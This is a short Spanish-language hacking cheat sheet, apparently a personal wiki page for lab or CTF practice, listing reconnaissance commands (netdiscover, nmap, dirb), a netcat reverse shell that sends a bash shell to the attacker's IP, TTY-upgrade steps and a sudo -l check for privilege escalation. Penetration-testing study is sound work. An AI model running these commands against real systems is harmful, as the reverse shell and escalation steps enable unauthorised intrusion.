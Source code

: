```yaml
---
title: CheatSheet
description: Cheatsheet de todos los comandos usados en Hacking
published: true
date: 2024-12-29T21:19:13.513Z
tags: 
editor: markdown
dateCreated: 2024-12-20T19:29:53.236Z
---
```


# Comandos
Esta sección está dedicada a comandos usados de forma común en hacking.
## Detección
Para la detección de IPs, podremos hacer uso de varios comandos como:
```bash
sudo netdiscover -r (Rango de IP)
```
La detección de puertos, podemos hacer uso de NMap o Nessus. Con NMap seria el siguiente comando:
```bash
sudo nmap -sC -sV (IP)
```
Para la detección de subdirectorios podemos hacer uso de:
```bash
sudo dirb (Enlace)
```
## Shell reversa
Una shell reversa, consiste en una shell ya segurizada que usaremos para poder escribir comandos, primero deberemos poner en nuestra máquina:
```bash
nc -lnvp (Puerto)
```

Tras esto en la máquina vulnerada, deberemos intentar poner el siguiente comando para poder obtener una shell reversa.
```bash
sudo nohup nc -e /bin/bash (Nuestra IP) &
```


### Securizar la shell
Para poder securizarla, deberemos escribir en la shell reversa lo siguiente:
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
python -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto haremos un Crtl + Z, para poner los siguientes comandos:
```bash
stty raw -echo;fg
```
Tras esto, deberemos hacer Enter 2 veces y por último poner el siguiente comando
```bash
export TERM=xterm
```
## Escalada de privilegios
Cuando intentemos hacer una escalada de privilegios, deberemos tener en cuenta que comandos permisos tiene nuestro usuario para poder realizarlo. Para ello ponemos:

```bash
sudo -l
```
Los datos obtenidos deberemos compararlos en: [GtFobins](https://gtfobins.github.io)

## Ingeniería inversa
Cuando tengamos un archivo .exe, deberemos intentar poder descompilarlo. Para ello podemos usar el siguiente comando.
```bash
sudo strings (Fichero)
```
